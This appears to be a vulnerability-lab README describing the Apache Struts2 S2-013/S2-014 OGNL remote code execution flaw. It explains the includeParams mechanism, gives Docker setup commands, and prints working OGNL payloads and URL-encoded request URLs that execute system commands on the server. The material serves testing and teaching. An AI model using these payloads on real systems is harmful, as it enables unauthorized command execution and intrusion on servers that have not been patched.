

# S2-013/S2-014 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.14.1

Vulnerability details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principles and Testing

The `<s:a>` and `<s:url>` in the Struts2 tag both contain an includeParams attribute whose value can be set to none, get or all. The official meaning of the reference is as follows:

1. none - the link does not contain any parameter values ​​requested (default)
2. get - the link only contains the parameters and their values ​​in the GET request
3. all - the link contains all parameters of GET and POST and their values

`<s:a>` is used to display a hyperlink. When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. The parameters are OGNL rendered during the placement of the parameters, causing any command execution vulnerabilities.

Execute the POC with any command:

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a ), #c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse(). getWriter(),#out.println(#d),#out.close())}

// or

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Such as: `http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime( ).exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew %20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D' %2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`



S2-014 is an enhancement to the S2-013 fix, which ignores the way the ${ognl_exp} OGNL expression is executed in the code fixed in S2-013, so S2-014 is a patch enhancement.

```
Http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess %27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```